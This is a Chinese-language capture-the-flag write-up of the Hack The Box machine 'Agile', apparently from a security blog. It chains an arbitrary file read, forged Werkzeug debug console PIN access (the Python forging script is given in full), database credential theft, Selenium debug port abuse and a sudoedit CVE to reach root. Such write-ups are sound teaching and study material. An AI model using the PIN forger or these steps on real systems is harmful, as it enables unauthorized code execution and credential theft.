 # Agile

Agile 是一个中等难度的 Linux 机器，在端口 80 上有一个密码管理网站。创建帐户并添加几个密码后，发现网站的导出到 CSV 功能容易受到任意文件读取的攻击。其他终结点的枚举显示“/download”在访问时引发错误，并显示“Werkzeug”调试控制台。此控制台通过 PIN 进行保护，但是此控制台与通过前面提到的漏洞读取文件的能力相结合，允许用户对此 PIN 进行逆向工程，并以“www-data”的形式执行系统命令。然后，可以识别数据库凭据，以便连接到密码管理器网站的 SQL 数据库，该数据库保存系统上“corum”用户的凭据。发现该网站的第二个版本正在运行，自动化系统通过“Selenium”网络驱动程序对其执行测试。“Selenium”的调试端口是开放的，通过SSH隧道，攻击者可以访问网站的测试环境并获取用户“edwards”的凭据。最后，“CVE-2023-22809”（全局“bashrc”文件中的自定义条目）和 Python 虚拟环境激活脚本上的错误权限的组合会导致权限提升。

---

## 外部信息收集

### 端口扫描

循例nmap

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/b510b26b-9e0d-44dc-b6ef-09714b173c2c.png)

### Web枚举

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/8f1adfeb-7d6d-aeea-ce12-4f8a6e64e08b.png)

注册一个账户并登录

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/f0a4eb94-6959-8cc1-2a46-3181462f61ad.png)

有个export功能，点击后查看bp发现一个/download，存在任意文件读取

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/f8c11404-2412-f4fa-5c85-b29110a07044.png)

概率触发报错

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/d7c79ee8-634c-437c-fa57-8f67bace52a1.png)

## Foldhold - PIN伪造

读machine-id

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/2340e5a1-981b-b930-ebec-6d47ce4fc462.png)

读网卡mac地址

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/19d2c6d2-814a-7241-1621-dd1c27feec56.png)

将地址转16进制

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/f666c5d1-fb91-aafb-ad8a-457268eeb1b4.png)

在报错当中，暴露了app.py的路径，在/etc/passwd里也看到www-data

	/app/venv/lib/python3.10/site-packages/flask/app.py

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/28331630-0e95-dbe0-d929-436524329772.png)

在这个werkzeug版本中还需要在machine-id后面拼接cgroup

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/a1316c96-62bb-f9e4-dbd1-c6d2f087a0b5.png)

伪造PIN exp

```python3
import hashlib
from itertools import chain
probably_public_bits = [
'www-data',# username
'flask.app',# modname
'wsgi_app',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/app/venv/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
'345052411386',# str(uuid.getnode())
'ed5b159560f54721827644bc9b220d00superpass.service'
]


h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/f515f9a5-9dfc-7e81-3023-789ebb3faf6c.png)

输入PIN后，现在可以执行python代码

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/e1233fe8-bd67-aeaa-cdfd-556632320514.png)

祖传reverse shell

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/dd007d38-9ef7-6877-2878-2ce986cdf2b2.png)

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/cce9ffe1-c194-9c7e-9732-94377aaf201b.png)

## 本地横向移动 -> corum

在config_prod.json里发现了mysql的凭据

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/da016a1a-4834-ed62-d588-3079636933ef.png)

进mysql常规操作

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/24777327-1fa0-e30b-4f25-e5e529d6450f.png)

corum是系统中的用户，发现users表中的hash爆不出来

还有个passwords表，corum是密码直接是明文密码

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/c97cd864-b28c-8646-eb04-85454c703bb0.png)

直接登ssh

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/b0fc8b78-ac7c-91ca-2eb9-485acd04ec12.png)

## 本地横向移动 -> edwards

在test的站点里面发现一个py脚本，它从creds.txt读取凭据，使用selenium登录测试站点

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/bbdd68ea-f057-1188-2a3d-f8e40692f7fa-1.png)

往下看可以看到Selenium调试端口是41829

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/68fe198c-2b84-3b35-a49d-db08d40778ab.png)

用ssh做本地端口转发

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/bfeb48af-7e0d-e1ea-1c4a-02ba0a111e26.png)

由于没有chrome，而且还比较简单，后面就看wp做一下

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/ef918393-1d66-9759-3adf-7e47fe7923a0.png)

inspect可以看到edwards的密码

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/b2f69fbe-cddc-db54-0238-c613fce544f5.png)

su过去

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/4b950dc0-89ab-bc9f-f434-cbec32772e2e.png)

## 本地权限提升

sudo -l

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/27363061-53d0-17fe-d335-79a35cd2ce97.png)

查看sudo版本后谷歌能够找到相关的提权cve

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/1e258602-d2e5-9279-2251-86c45215bcf4.png)

它能够让我们读取意外的文件，但目前我们只能模拟dev_admin执行

而在test_and_update.sh中加载了activate配置文件

```bash
dwards@agile:/app$ cat ./test_and_update.sh
#!/bin/bash
...
# system-wide source doesn't seem to happen in cron jobs
source /app/venv/bin/activate
...
```

查看/etc/bash.bashrc发现也引用activate

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/387b7f4e-ce11-4c4a-b587-65131c7a8718.png)

由于activate，dev_admin用户可写，所以搭配上面的cve修改activate文件，写入shellcode

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/4f8a5933-cc8a-8f55-75b7-921d462fd368.png)

祖传suid bash

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/adb3bd92-d79b-33b8-7867-d9f036c4ef1b.png)

root flag还在老地方

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/c650b200-d16e-d1f3-66ba-11524be81b2a.png)

事后我猜测activate被root触发是因为定时任务，查找了一下发现确实是root有计划任务

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/2fef76b2-e096-1417-030c-a4c8e7d801f8.png)


